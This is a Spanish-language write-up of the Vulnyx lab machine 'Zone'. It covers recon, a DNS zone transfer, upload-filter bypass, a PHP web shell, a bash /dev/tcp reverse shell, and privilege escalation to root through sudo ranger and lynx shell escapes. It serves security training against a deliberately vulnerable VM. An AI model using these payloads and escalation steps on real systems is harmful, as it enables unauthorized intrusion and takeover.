 ```yaml
---
layout: post
title: "Zone"
date: 2024-05-10 17:10:23
category: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zone </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#zone"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/zone/host.png){:.margin}

**1\.** Vemos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/zone/arp.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- --open -T5 -sS -sCV --min-rate=5000 -n -Pn 192.168.1.14 -oN report`

![img](/notas/public/img/vulnyx/zone/nmap.png){:.margin}

**3\.** En la web Apache no se encuentra nada interesante.

`http://192.168.1.14/`

![img](/notas/public/img/vulnyx/zone/80.png){:.margin}

**4\.** Descubrimos directorios y archivos.

`gobuster dir -u http://192.168.1.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t50 -x php,html,txt`

![img](/notas/public/img/vulnyx/zone/gobuster.png){:.margin}

**5\.** Revisamos el fichero robots. (tenemos un dominio)

`http://192.168.1.14/robots.txt`

![img](/notas/public/img/vulnyx/zone/robots.png){:.margin}

**6\.** Lo añadimos en nuestra configuracion de hosts.

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx`
![img](/notas/public/img/vulnyx/zone/etc.png){:.margin}

**7\.** Vamos al nuevo dominio, vemos la pagina Apache por defecto.

`http://securezone.nyx`

![img](/notas/public/img/vulnyx/zone/securezone.png){:.margin}

**8\.** Hacemos una transferencia de zona, ya que tenemos un servicio dns.

`dig axfr @192.168.1.14 securezone.nyx`

![img](/notas/public/img/vulnyx/zone/dig.png){:.margin}

**9\.** Agregamos los subdominios al hosts. 

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx admin.securezone.nyx ns1.securezone.nyx upl0ads.securezone.nyx www.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/etc2.png){:.margin}

**10\.** Vamos revisando cada subdominio, en uploads tenemos subida de archivos.

`http://upl0ads.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/upload.png){:.margin}

**11\.** Abrimos burpsuite y su navegador para ir a upl0ads e interceptar el tramite.

![img](/notas/public/img/vulnyx/zone/browser.png){:.margin}

**12\.** Probamos subir un archivo.

`echo "hola" > file.txt`

![img](/notas/public/img/vulnyx/zone/probefile.png){:.margin}

**13\.** En burpsuite tenemos la peticion interceptada. Presionamos ctrl +r para enviar al Repeater.

![img](/notas/public/img/vulnyx/zone/intercep.png){:.margin}

**14\.** Enviamos la solicitud para ver la respuesta. ctrl + i para enviar al Intruder.

![img](/notas/public/img/vulnyx/zone/response.png){:.margin}

**15\.** Identificamos las extensiones permitidos.

_\- Seleccionamos la extension y presionamos en Add$_

![img](/notas/public/img/vulnyx/zone/step1.png){:.margin}

_\- Agregamos extensiones, luego iniciamos el ataque_

![img](/notas/public/img/vulnyx/zone/step2.png){:.margin}

_\- Se abre otra ventana, Tenemos una extension permitida_

![img](/notas/public/img/vulnyx/zone/step3.png){:.margin}

_\- Le metemos codigo php 'malicioso'  y lo enviamos_

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/zone/sendfile.png){:.margin}

_\- Fuzzeamos para ver donde se subio nuestro archivo_

`gobuster dir -u http://upl0ads.securezone.nyx/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnyx/zone/gobuster2.png){:.margin}

**16\.** Vamos a la web a la nueva ruta, probamos el funcionamiento ejecutando un comando.

![img](/notas/public/img/vulnyx/zone/id.png){:.margin}

**17\.** Ganando acceso al sistema.

_\- Nos ponemos en esucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/zone/nc.png){:.margin}

_\- Nos enviamos una shell_

`http://upl0ads.securezone.nyx/uploads/file.phar?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.14/443 0>%261`

![img](/notas/public/img/vulnyx/zone/reverse.png){:.margin}

_\- Tenemos la conexion a la maquina_

![img](/notas/public/img/vulnyx/zone/connected.png){:.margin}

**19\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo;fg`

`reset xterm`

`export TERM=xterm-256color`

![img](/notas/public/img/vulnyx/zone/tty.png){:.margin}

**18\.** Vemos permisos sudo, podemos ejecutar ranger como usuario hans.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol.png){:.margin}

**17\.** Escalamos como usuario hans

_\- Ejecutamos el binario_

`sudo -u hans /usr/bin/ranger`

_\- Presionamos ! y enter_

![img](/notas/public/img/vulnyx/zone/ranger.png){:.margin}

_\- Nos lanzamos una bash como usuario hans_

`/bin/bash`

![img](/notas/public/img/vulnyx/zone/ranger2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar lynx como root.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol2.png){:.margin}

**19\.** Escalamos privilegios a root

_\- Ejecutamos el binario_

`sudo usr/bin/lynx`

_\- Tipeamos ! y presionamos enter para obtener una bash_

`!`

![img](/notas/public/img/vulnyx/zone/lynx.png){:.margin}

_\- Ya somos root_

![img](/notas/public/img/vulnyx/zone/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>